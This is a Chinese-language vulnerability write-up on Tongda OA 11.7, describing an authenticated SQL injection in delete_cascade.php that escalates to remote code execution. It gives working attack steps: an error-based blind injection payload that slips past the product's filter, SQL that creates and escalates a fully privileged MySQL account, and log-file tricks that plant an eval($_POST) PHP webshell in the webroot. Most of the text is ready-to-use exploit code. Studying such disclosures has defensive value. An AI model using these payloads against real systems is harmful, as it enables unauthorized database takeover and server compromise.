 通达oa 11.7 后台sql注入漏洞&rce
===============================

一、漏洞简介
------------

### 利用条件：

需要登陆后台

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![1.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId25.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的\'替换为\'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

![2.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId26.png)

因为是无回显机制，是盲注，所以尝试(select 1 from (select
sleep(5))a)，结果没那么简单：

![3.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId27.png)

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![4.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId28.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![5.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId29.png)

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

    select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

![6.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId30.png)

![7.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId31.png)

### 构造利用链

> 添加用户：

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![8.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId33.png)

![9.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId34.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

    UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![10.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId35.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![11.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId36.png)

提示这个，或者让改密码死活改不了。再执行一下

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![12.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId37.png)

### 写shell

    # 查路径：
    select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot    # 方法1：
    set global slow_query_log=on;
    set global slow_query_log_file='C:/td0a117/webroot/tony.php';
    select '<?php eval($_POST[x]);?>' or sleep(11);
    # 方法2：
    set global general_log = on;
    set global general_log_file = 'C:/td0a117/webroot/tony2.php';
    select '<?php eval($_POST[x]);?>';
    show variables like '%general%';

![13.png](resource/通达oa11.7后台sql注入漏洞&rce/media/rId39.png)
